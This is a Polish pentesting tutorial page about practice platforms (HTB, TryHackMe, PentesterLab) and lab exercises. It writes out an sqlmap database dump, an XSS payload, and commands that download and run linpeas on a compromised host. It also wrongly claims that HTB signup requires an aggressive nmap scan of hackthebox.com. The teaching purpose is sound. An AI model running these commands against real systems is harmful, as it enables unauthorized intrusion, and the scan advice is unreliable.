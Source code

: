 ```yaml
---
id: "case-studies-practice"
title: "🛠️ Case Studies i ćwiczenia praktyczne"
sidebar_position: 18
---
```


# 🛠️ Case Studies i ćwiczenia praktyczne

Testowanie aplikacji w kontrolowanym środowisku to najlepszy sposób na naukę testów penetracyjnych. W tej sekcji omówimy platformy do ćwiczeń, laby pentesterskie oraz przykłady rzeczywistych scenariuszy ataków.

---

## 🎯 Platformy do ćwiczeń i laby pentesterskie

### **1️⃣ Hack The Box (HTB)**
Hack The Box to jedna z najpopularniejszych platform dla pentesterów. Oferuje realistyczne maszyny w różnych kategoriach:
- **Easy** – dobre dla początkujących
- **Medium** – zawierają bardziej złożone ataki
- **Hard** – wymagające pełnej analizy systemu

Aby uzyskać dostęp, należy rozwiązać wyzwanie rejestracyjne: 
```bash
nmap -A hackthebox.com
```
Po uzyskaniu konta można łączyć się z VPN HTB i atakować maszyny:
```bash
openvpn htb.ovpn
```
Więcej na: [https://www.hackthebox.com/](https://www.hackthebox.com/)

---

### **2️⃣ TryHackMe**
TryHackMe to interaktywna platforma z kursami pentestingu i praktycznymi labami.

Polecane ścieżki:
- **Pre Security** – dla osób zaczynających w cyberbezpieczeństwie
- **Web Fundamentals** – ataki na aplikacje webowe
- **Offensive Pentesting** – testy penetracyjne w praktyce

Dostęp do maszyn:
```bash
openvpn tryhackme.ovpn
```
Więcej na: [https://tryhackme.com/](https://tryhackme.com/)

---

### **3️⃣ PentesterLab**
PentesterLab oferuje kursy oparte na rzeczywistych podatnościach. Każdy scenariusz obejmuje eksploitację podatności z wykorzystaniem narzędzi takich jak:
- Burp Suite
- SQLMap
- Metasploit

Ścieżki do ćwiczeń:
- **Web for Pentester** – podstawowe ataki webowe
- **Advanced Web** – ataki na JWT, SSRF, XXE
- **Exploitation** – wykorzystywanie znanych exploitów

Więcej na: [https://pentesterlab.com/](https://pentesterlab.com/)

---

## 🔥 Ćwiczenia na realnych scenariuszach

### **4️⃣ SQL Injection na podatnej aplikacji**
Testowanie SQLi na **Damn Vulnerable Web Application (DVWA)**:
```bash
sqlmap -u "http://dvwa.com/vuln.php?id=1" --dbs
```

### **5️⃣ XSS w OWASP Juice Shop**
Zainstaluj aplikację:
```bash
docker run -d -p 3000:3000 bkimminich/juice-shop
```
Testowanie XSS:
```javascript
<script>alert('XSS')</script>
```

### **6️⃣ Eskalacja uprawnień na Linuksie**
Uruchomienie `linpeas` na zhakowanej maszynie:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### **7️⃣ Przechwytywanie ruchu w Burp Suite**
1. Skonfiguruj Burp jako proxy.
2. Przechwyć żądanie logowania.
3. Edytuj wartości sesji i przetestuj IDOR.

---

## 🛡️ Jak maksymalnie wykorzystać platformy pentesterskie?
✅ **Dokumentuj każdy test** – zapisuj użyte narzędzia i payloady.
✅ **Analizuj logi i odpowiedzi serwera** – ucz się na błędach.
✅ **Próbuj różnych metod ataku** – nie ograniczaj się do jednego narzędzia.
✅ **Nie korzystaj ze skryptów „gotowców” bez zrozumienia** – ucz się, jak działają.

---

Ćwiczenia w kontrolowanych środowiskach to najlepszy sposób na naukę pentestingu. Kolejnym krokiem będzie **Analiza rzeczywistych incydentów i exploitacji**! 🚀
